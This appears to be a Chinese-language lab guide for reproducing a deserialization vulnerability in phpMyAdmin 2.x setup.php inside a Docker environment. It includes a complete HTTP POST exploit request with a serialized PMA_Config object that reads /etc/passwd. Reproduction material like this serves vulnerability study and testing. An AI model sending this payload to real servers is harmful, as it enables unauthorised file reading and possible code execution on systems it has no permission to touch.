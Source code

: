 # phpmyadmin scripts/setup.php 反序列化漏洞（WooYun-2016-199433）

phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。

## 环境搭建

执行如下命令启动phpmyadmin：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到phpmyadmin的首页。因为没有连接数据库，所以此时会报错，但我们这个漏洞的利用与数据库无关，所以忽略。

## 漏洞复现

发送如下数据包，即可读取`/etc/passwd`：

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)

